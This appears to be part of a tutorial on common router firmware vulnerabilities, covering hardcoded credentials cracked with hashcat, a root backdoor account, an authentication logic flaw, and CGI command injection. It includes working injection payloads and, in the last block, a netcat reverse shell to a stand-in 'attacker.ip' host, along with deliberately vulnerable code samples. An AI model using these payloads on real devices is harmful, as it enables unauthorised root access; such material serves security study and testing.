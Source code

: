 
## Common Vulnerabilities

### Authentication Bypass

**Hardcoded credentials:**

```bash
# Found in etc/passwd or config files:
# Username: admin
# Password: admin (or default password)

# MD5 hash in config:
# password=21232f297a57a5a743894a0e4a801fc3
# Crack with hashcat:
hashcat -m 0 -a 0 hash.txt rockyou.txt
# Result: admin
```

**Backdoor accounts:**

```bash
# etc/passwd entry:
debug:x:0:0:Debug:/root:/bin/sh

# Login via telnet/SSH:
telnet 192.168.1.1
# Username: debug
# Password: (empty or default)
```

**Authentication logic flaws:**

```c
// Vulnerable authentication (decompiled from httpd):
if (strcmp(username, "admin") == 0) {
    if (strcmp(password, stored_password) == 0) {
        authenticated = 1;
    }
}

// Bypass: If username != "admin", authentication check is skipped
// Exploit: Use any username except "admin" (no password needed)
```

### Command Injection

**CGI parameter injection:**

```bash
# Vulnerable CGI script (/cgi-bin/ping.cgi):
#!/bin/sh
IP=$QUERY_STRING
ping -c 1 $IP > /tmp/ping.txt
cat /tmp/ping.txt

# Exploitation:
curl "http://router.ip/cgi-bin/ping.cgi?8.8.8.8;id"
# Executed command: ping -c 1 8.8.8.8;id
# Output: uid=0(root) gid=0(root) groups=0(root)

# Reverse shell:
curl "http://router.ip/cgi-bin/ping.cgi?8.8.8.8;nc%20-e%20/bin/sh%20attacker.ip%201234"
```
